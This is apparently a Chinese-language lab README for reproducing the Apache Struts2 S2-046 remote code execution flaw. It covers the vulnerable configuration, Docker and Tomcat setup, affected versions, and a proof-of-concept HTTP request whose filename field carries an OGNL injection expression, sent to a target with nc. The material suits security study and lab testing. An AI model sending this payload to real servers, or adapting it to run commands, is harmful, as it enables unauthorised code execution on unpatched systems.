


## 概述

Struts2 Jakarta 插件存在远程代码执行漏洞

需要在struts.xml中配置 ```<constant name="struts.multipart.parser" value="jakarta-stream" />``` 才能触发。

## 环境搭建

环境一：

	docker pull medicean/vulapps:s_struts2_s2-046

环境二：

将```Struts2FileUpload.war``` war 包部署在tomcat，tomcat自动解压。

访问路径：```http://ip:port/Struts2FileUpload_war/doUpload.action```


## 影响版本

基于Jakarta的文件上传Multipart解析器

Struts 2.3.5-Struts 2.3.31，Struts 2.5- Struts 2.5.10


## 复现

攻击方式有2种。Content-Disposition 值或不正确的Content-Length 标头(Content-Length header, is bigger than Struts2 maximum allowed size 2GB.)执行RCE攻击。如果Content-Disposition / Content-Length 值无效，则会引发异常，然后将其用于向用户显示错误消息。

### poc

	export payload="POST /doUpload.action HTTP/1.1\r\nHost: youguess\r\nContent-Length: 10485760\r\nCache-Control: max-age=0\r\nContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryaaa\r\nConnection: close\r\n\r\n------WebKitFormBoundaryaaa\r\nContent-Disposition: form-data; name=\"upload youguess\"; filename=\"%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','lee')}\"\r\n\r\n"

	echo -e "$payload" | nc ip 8083



### exp

见 exp.py

## 参考资料

[Struts2-046: A new vector](https://community.microfocus.com/t5/Security-Research-Blog/Struts2-046-A-new-vector/ba-p/226779#)

https://github.com/vulhub/vulhub/tree/master/struts2/s2-046

https://cwiki.apache.org/confluence/display/WW/S2-046

